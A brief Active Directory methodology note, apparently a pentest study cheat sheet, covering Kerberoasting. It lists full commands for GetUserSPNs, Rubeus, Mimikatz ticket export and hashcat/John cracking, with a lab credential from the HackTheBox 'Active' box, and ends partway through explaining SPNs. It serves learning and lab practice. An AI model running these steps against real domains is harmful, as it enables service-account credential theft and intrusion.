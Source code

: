 # A.D. Methodology

1. [GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1) or [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

   `python3 GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100`

2. [Get Service Tickets](https://github.com/GhostPack/Rubeus)

   `PS> .\Rubeus.exe kerberoast /simple /outfile:hashes.txt`

3. Extract Tickets

   [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::list /export`

4. [Crack Tickets](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)

   HashCat: `hashcat -m 13100 --force <TGSs_file> <passwords_file>`
   
   JohnTheRipper: `john --format=krb5tgs --wordlist=<passwords_file> <ticket_file>`

## Resources
[HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

Forge Service Tickets (TGS) with Kerberoasting [MITRE ATT&CK ID: T1558.003](https://attack.mitre.org/techniques/T1558/003/)

[Kerberoasting 101](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)

[GhostPack tools](https://github.com/GhostPack)

### Service Principal Names (SPNs)
The structure of an SPN consists of three (3) main parts: Service Class: the service type, i.e., SQL, Web, Exchange, File, etc., and the Host where the service is usually running in the format of FQDN (Fully Qualified Domain Name)and port number. For example, below, the Microsoft SQL service runs on the dcorp-mgmt host on port 1443.
